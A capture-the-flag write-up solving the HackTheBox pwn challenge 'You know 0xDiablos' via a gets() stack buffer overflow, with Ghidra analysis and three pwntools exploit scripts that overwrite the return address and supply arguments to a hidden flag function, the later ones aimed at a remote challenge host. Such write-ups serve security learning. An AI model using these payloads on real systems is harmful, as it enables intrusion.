# You know 0xDiablos - Writeup

**Platform:** *HackTheBox*

**Category:** *pwn*

**Difficulty:** *easy*

**Link:** https://app.hackthebox.com/challenges/You%2520know%25200xDiablos


## Solution

First, I checked some basic information about the file:

<p align="center">

</p>

Here I noticed that it is `32-bit` ELF file.

Next, I checked file security:

<p align="center">

</p>
There are almost no security protections enabled.

Then I ran the program and noticed that it prompts for input, then echoes it back:

<p align="center">

</p>

I decided to explore the program in Ghidra and found a piece of code that send us output and calls a `vuln` function:

<p align="center">

</p>
<p align="center">

</p>

I found that the arguments are pushed onto the stack before the function call, indicating the use of the cdecl calling convention.

In vuln function at first I detected that it is an 180-byte buffer created:

<p align="center">

</p>
<p align="center">

</p>

Under that there are two function calls: `gets` (insecure function) and `puts`. Both take pointer to buffer created above:

<p align="center">

</p>
<p align="center">

</p>

The problem with the `gets` function is that it reads input until it encounters a `\n` byte and doesn't check the length of the input.

Also in function list I found a `flag` function:

<p align="center">

</p>

Then I tried with `pwntools` to overflow the return address of `vuln` function:

<p align="center">

</p>
<p align="center">

</p>

Bytes `0x78 0x61 0x61 0x62` are the same as `xaab` (underlined on screenshot above)

Next, I tried to determine how many bytes are needed before we reach the overwritten return address:

<p align="center">

</p>

That means that our `xaab` is located between 188 and 193 bytes. These bytes we can change into return address of `flag` function (4 bytes because it is 32-bit binary).

Here is how I found the address of the `flag` function:

<p align="center">

</p>

To test if this would work, I wrote the following script:

```python
from pwn import *

p = process('./vuln')
payload = b'A' * 188 + p32(0x80491e2)
p.sendline(payload)
p.interactive()
```
And got as a result:

<p align="center">

</p>

It worked locally. Next, I needed to do the same on the target machine. I have changed the script to connect to target via `netcat`, but for some reason it didn't work. Then I decided to back to `flag` function and noticed that this function gets two parameters and before sending the flag program checks these parameters:

<p align="center">

</p>
<p align="center">

</p>


As I know, this binary uses the cdecl calling convention, so I needed to push our arguments onto the stack (or rather, overwrite the stack with them):

```python
from pwn import *

p = remote('94.237.51.163', 40903)
payload = b'A' * 188 + p32(0x80491e2) + p32(0xdeadbeef) + p32(0xc0ded00d)
p.sendline(payload)
p.interactive()
```

But it still didn't work:

<p align="center">

</p>

With the help of ChatGPT, I found the reason: when we overwrite the return address, the address to return to after the called function (in this case, `flag`) is also placed on the stack. This means we need to account for 4 additional bytes (in a 32-bit binary) before our arguments.


```python
from pwn import *

p = remote('94.237.51.163', 40903)
payload = b'A' * 188 + p32(0x80491e2) + b'A' * 4 + p32(0xdeadbeef) + p32(0xc0ded00d)
p.sendline(payload)
p.interactive()
```

And here is the flag:

<p align="center">

</p>
